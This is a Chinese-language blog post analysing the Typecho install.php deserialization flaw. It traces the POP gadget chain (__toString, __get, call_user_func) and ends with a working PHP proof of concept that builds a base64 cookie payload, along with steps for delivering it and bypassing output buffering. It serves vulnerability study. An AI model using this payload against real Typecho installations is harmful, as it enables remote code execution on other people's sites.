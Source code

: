 ```yaml
---
title: Typecho install.php 反序列化漏洞分析
date: 2017-10-30 14:32:18
tags: [unserialize,vul,php]
categories: Security
---
```

<script src="https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/pangu.js"></script>

正好在学习php代码审计，简单分析一下前几天的`Typecho install.php`反序列化漏洞

### 漏洞分析
漏洞点出现在`install.php`第229-235行:

![0](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/Affah)
这里进行了一个反序列化操作，一般碰到这个都值得注意一下

由于这是初始安装文件，复现时要想流程走到这里就得绕过程序自身的判断，它的判断逻辑如下:

![1](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/fQO9b)

就进行了两个简单的判断，`HTTP_REFERER`是否为空以及是否来源于本站，这是很容易绕过的

往下执行到`unserialize(base64_decode(Typecho_Cookie::get('__typecho_config')))`反序列化操作，如果`Typecho_Cookie::get('__typecho_config')`可控的话就可能导致一个漏洞

跟进`Typecho_Cookie`类的`get()`方法分析一下:

![2](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/HW0eV)

可以看到`$_COOKIE[$key]`的内容都是我们可以控制的，存在风险

继续往下看到
`$db = new Typecho_Db($config['adapter'], $config['prefix']);`这里新建了一个`Typecho_Db`对象，跟进去看一下这个对象的构造方法:

![3](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/yLOrO)

注意这一行`$adapterName = 'Typecho_Db_Adapter_' . $adapterName;`
将`Typecho_Db_Adapter_`属性与字符串进行了拼接，这就涉及到php的一个特性，如果`Typecho_Db_Adapter_`传入的是一个实例化对象，那将自动触发这个对象的`__toString()`方法

我们全局搜索`__toString()`方法，可以在`Feed.php`的第223行找到一个`__toString()`方法:

![4](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/nXTJN)

里面进行了3个`if`判断，注意到第3个`if`中有这样一句(同样在第2个`if`中也存在):

![5](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/11MHn)

访问了`item`元素里的一个属性`screenName`，这就又涉及到php的一个特性，如果我们访问一个对象的私有属性或者不存在的属性到时候，会自动调用这个对象的`__get()`方法，所以我们只要找到一个`__get()`方法并且它的参数可控，那就形成了一条完整的调用链。

全局搜索`__get()`方法，在`Request.php`第269行:

![6](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/zcYKG)

继续跟进`get`，第295行

![7](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/EbE9r)

可以看到自定义的`get()`方法最终返回的是`$this->_applyFilter($value)`，跟进`_applyFilter()`看一下:

![8](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/tztDS)

注意这里调用了`call_user_func()`方法，而且这里的两个参数都是可控的，这就形成了一个任意代码执行的漏洞

反过来回顾一下整个流程，构造`call_user_func()`恶意方法——调用`__get()`方法——调用`__toString()`方法——控制传入的类——反序列化

### PoC
```
<?php
class Typecho_Feed
{
    const ATOM1 = 'ATOM 1.0';
    private $_type;
    private $_items;
	
    public function __construct(){
        $this->_type = $this::ATOM1;
        $this->_items[0] = array(
            'author' => new Typecho_Request(),
        );
    }
}
class Typecho_Request
{
    private $_params = array();
    private $_filter = array();
    public function __construct(){
        $this->_params['screenName'] = 'phpinfo()';
        $this->_filter[0] = 'assert';
    }
}
$exp = array(
    'adapter' => new Typecho_Feed(),
    'prefix' => 'test'
);
echo base64_encode(serialize($exp));
?>
```
构造`__typecho_config`的值等于PoC输出内容，加上`referer`头信息，发送给`http://localhost/install.php?finish=1`
PoC执行流程: base64编码后的序列化内容经过解码后反序列化，传给`Typecho_Db`构造函数，其中`adapter`参数是一个`Typecho_Feed`对象，拼接了字符串会调用`__toString()`方法，控制可控变量进入第2个if分支，执行到`$item['author']->screenName`，当`author`是一个`Typecho_Request`对象且没有`screenName`属性时，会调用`__get()`方法执行`_applyFilter()`，进而执行`call_user_func`，传入`assert(phpinfo());`执行成功

![9](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/Ple7u)

最后还有一个`ob_start()`的问题，`install.php`中开启了这个，

> 此函数将打开输出缓冲。当输出缓冲激活后，脚本将不会输出内容（除http标头外），相反需要输出的内容被存储在内部缓冲区中。

所以会触发异常后导致500，同时输出内容会在缓冲区会清除，@[LoRexxar'](https://lorexxar.cn/)给出了两个解决办法

> 1、因为`call_user_func`函数处是一个循环，我们可以通过设置数组来控制第二次执行的函数，然后找一处exit 跳出，缓冲区中的数据就会被输出出来。
 
> 2、第二个办法就是在命令执行之后，想办法造成一个报错，语句报错就会强制停止，这样缓冲区中的数据仍然会被输出出来。

总的来看这个漏洞还是比较经典的，涉及到几个特性和两三层的调用链，至于流传的“后门”说法还是持保留态度，我们还是回归到技术交流本身吧~

参考:

[Typecho 前台 getshell 漏洞分析](https://paper.seebug.org/424/)

[POP链和序列化，反序列化操作](http://www.blogsir.com.cn/safe/452.html)

<script>pangu.spacingPage();</script>